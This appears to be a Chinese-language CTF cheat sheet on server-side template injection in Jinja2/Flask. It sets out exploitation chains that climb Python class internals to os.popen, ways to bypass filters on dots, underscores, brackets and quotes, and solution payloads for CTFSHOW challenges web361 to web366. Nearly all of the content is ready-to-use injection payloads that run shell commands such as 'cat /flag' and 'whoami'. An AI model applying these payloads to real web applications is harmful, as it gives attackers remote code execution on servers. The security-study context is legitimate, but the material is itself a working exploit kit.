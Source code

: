 # ssti

---

[TOC]

## 利用链（总结ing）

### 一个渐进的过程

```python
举一个例子
1. 找到注入点
2. 尝试是否是ssti漏洞 --- {{7*7}}

3.{"".__class__.__base__.__subclasses__()}

4.在众多类中中找我们可以利用的类，可以浏览器高亮找，可以用Python脚本去寻找,找到下标号

5.利用我们这个利用类，去利用他的一些函数之类东西，去带出flag
{{"".__class__.__base__.__subclasses__()[132].__init__.__globals__['popen']("ls").read()}}
```



### os._wrap_close

```python
"".__class__.__bases__[0].__subclasses__()[..].__init__.__globals__['popen']('whoami').read()
"".__class__.__bases__[0].__subclasses__()[..].__init__.__globals__.popen('whoami').read()
```

### os类

```python
"".__class__.__bases__[0].__subclasses__()[250].__init__.__globals__['os'].popen('whoami').read()
```

### 使用__import__下的os（python2不行）

可以使用 __import__ 的 os

```
"".__class__.__bases__[0].__subclasses__()[75].__init__.__globals__.__import__('os').popen('whoami').read()
```



### \__builtins__

下有eval，__import__等的函数，可以利用此来执行命令

```python
"".__class__.__bases__[0].__subclasses__()[250].__init__.__globals__['__builtins__']['eval']("__import__('os').popen('id').read()")
"".__class__.__bases__[0].__subclasses__()[250].__init__.__globals__.__builtins__.eval("__import__('os').popen('id').read()")
"".__class__.__bases__[0].__subclasses__()[250].__init__.__globals__.__builtins__.__import__('os').popen('id').read()
"".__class__.__bases__[0].__subclasses__()[250].__init__.__globals__['__builtins__']['__import__']('os').popen('id').read()
```



### 直接方法

```python
{{lipsum.__globals__['os'].popen('tac ../flag').read()}}
#request对象的方法绕过

{{cycler.__init__.__globals__.os.popen('ls').read()}}
```



## 绕过方法（总结ing）

### 基类

```python
__mro__[-1] 
__base__
__bases__[0]
```

`.` 被ban

```python
1、用[]代替.
{{"".__class__}}={{""['__class']}}
2、用attr()过滤器绕过，举个例子
{{"".__class__}}={{""|attr('__class__')}}
```

`_` 被ban

```python
1、通过list获取字符列表，然后用pop来获取_，举个例子
{% set a=(()|select|string|list).pop(24)%}{%print(a)%}
2、可以通过十六进制编码的方式进行绕过，举个例子
{{()["\x5f\x5fclass\x5f\x5f"]}} ={{().__class__}}
3.利用过滤器
filters中的attr来过滤下划
?name={{(lipsum | attr(request.values.b)).os.popen(request.values.a).read()}}&a=cat /flag&b=__globals__
```

`[]`被ban

```
__getitem__()
```



### 单双引号被ban

采用传递参数的方法：

- `request.args.参数名`
- `request.cookies.参数名`
- `request.values.参数名`

---

## CTFSHOW ssti

### web361

```python
{{ "".__class__.__base__.__subclasses__()[132].__init__.__globals__['popen']("cat /flag").read()}}
```



### web362

> 过滤了数字32

```python
//利用运算
{{ "".__class__.__base__.__subclasses__()[140-8].__init__.__globals__['popen']("cat /flag").read()}}
```

```python
{{lipsum.__globals__.__getitem__("os").popen("cat /flag").read()}}
```

```python
{{ "".__class__.__base__.__subclasses__()[94]["get_data"](0,"/flag")}}
```



### web363

> 过滤了单双引号

这里采用传get参数的方法，通过传参数绕过单双引号

```python
?name={{().__class__.__base__.__subclasses__()[132].__init__.__globals__[request.args.popen](request.args.bx).read()}}&popen=popen&bx=cat /flag
```



### web364

> 单双引号，args这个也ban了

```python
?name={{().__class__.__base__.__subclasses__()[132].__init__.__globals__[request.cookies.b]([request.cookies.x).read()}}

#cookie中添加
b=popen&x=cat /flag
```



### web365

> 单双引号，args ,   [] 被ban

```python
?name={{().__class__.__base__.__subclasses__().__getitem__(132).__init__.__globals__.__getitem__(request.values.a)(request.values.b).read()}}&a=popen&b=cat /flag
```



### web366

> 单双引号，和下划线被ban

```python
?name={{(lipsum | attr(request.values.b)).os.popen(request.values.a).read()}}&a=cat /flag&b=__globals__
```

利用filters中的attr来过滤下划
